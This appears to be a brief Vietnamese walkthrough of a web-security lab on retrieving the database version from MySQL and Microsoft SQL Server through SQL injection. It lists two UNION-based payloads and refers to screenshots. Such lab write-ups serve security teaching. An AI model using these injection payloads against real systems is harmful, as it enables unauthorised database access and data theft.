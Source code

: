 ![image](https://github.com/user-attachments/assets/27d27ebb-e448-460a-9bf4-80f2339f4237)

Mục tiêu: lấy database của phiên bản MySQL và Microsoft

Bài này thì làm như bài trên version ORACLE nên đọc lại 

Thử payload  'UNION SELECT 'abc','def' FROM information_schema.tables-- -

![image](https://github.com/user-attachments/assets/f856fa88-bae2-4090-90f5-06650f9ccc08)


Tiếp tục với payload 'UNION SELECT @@version, NULL-- -

![image](https://github.com/user-attachments/assets/a481e708-0e4e-48af-baf6-2cd8fd198775)
